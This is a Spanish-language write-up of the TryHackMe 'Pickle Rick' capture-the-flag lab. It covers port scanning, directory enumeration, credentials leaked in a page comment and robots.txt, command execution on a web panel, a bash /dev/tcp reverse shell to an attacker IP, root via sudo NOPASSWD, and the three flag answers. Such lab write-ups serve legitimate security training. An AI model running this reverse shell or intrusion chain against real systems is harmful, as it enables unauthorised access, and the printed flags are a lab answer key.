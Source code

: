 # 🥒 Pickle Rick | TryHackMe 🧪  
**Dificultad**: Fácil | **Categoría**: CTF / Privilege Escalation  
**Objetivo**: Encontrar los 3 ingredientes para la pócima de Rick.

---

## 🛰️ 1. Reconocimiento inicial

```bash
ping -c 1 10.10.138.4
```

La máquina responde correctamente con una latencia de ~50ms y detectamos el ttl=63 propio de SO Linux.


## 🔍 2. Escaneo de puertos

```bash
nmap -p- --open -sS -sC -sV --min-rate=5000 -n -vvv -Pn 10.10.138.4 -oN escaneo.txt
```

### Puertos abiertos:

| Puerto | Servicio | Versión                    |
|--------|----------|----------------------------|
| 22     | SSH      | OpenSSH 8.2p1 Ubuntu       |
| 80     | HTTP     | Apache/2.4.41 (Ubuntu)     |


## 🌐 3. Análisis Web

Accediendo a `http://10.10.138.4/`

En el código fuente de la página encontramos un comentario revelador:

```html
<!-- Username: R1ckRul3s -->
```


## 🔐 4. Enumeración de rutas

Usamos Gobuster:

```bash
gobuster dir -u http://10.10.138.4 -w /usr/share/wordlists/dirb/common.txt -x .php,.html,.txt -b 403,404 -o rutas.txt
```

Rutas interesantes:
- `/login.php`: Login portal
- `/portal.php`: Panel de comandos
- `/robots.txt`: contiene `Wubbalubbadubdub`


## 🛂 5. Enumeración del portal

Al acceder a `/login.php` con las credenciales encontradas en index.html (R1ckRul3s) y en robots.txt (Wubbalubbadubdub), entramos en `/portal.php` y encontramos un **panel de comandos vulnerables a RCE**.


## 🐚 6. Reverse Shell

Ejecutamos una reverse shell desde el comando:

```bash
bash -c "sh -i >& /dev/tcp/10.21.203.111/4444 0>&1"
```

Se recibe la conexión como `www-data`.


## 🧪 7. Búsqueda de ingredientes

### 🧪 Primer ingrediente

📁 `/var/www/html/Sup3rS3cretPickl3Ingred.txt`

```bash
cat Sup3rS3cretPickl3Ingred.txt
# mr. meeseek hair
```


### 🧪 Segundo ingrediente

📁 `/home/rick/second ingredients`

```bash
cat 'second ingredients'
# 1 jerry tear
```


## 🔓 8. Escalada de privilegios

### Comprobamos sudo

```bash
sudo -l
```

Salida:

```
(ALL) NOPASSWD: ALL
```

Ejecutamos:

```bash
sudo /bin/bash
```

¡Acceso root conseguido!


### 🧪 Tercer ingrediente

📁 `/root/3rd.txt`

```bash
cat /root/3rd.txt
# 3rd ingredients: fleeb juice
```


## ✅ Conclusión

### Lecciones clave:

- Comentarios ocultos pueden revelar credenciales.
- Un panel vulnerable con ejecución de comandos permite acceso inicial.
- Revisar `sudo -l` es crucial para detectar escaladas fáciles.
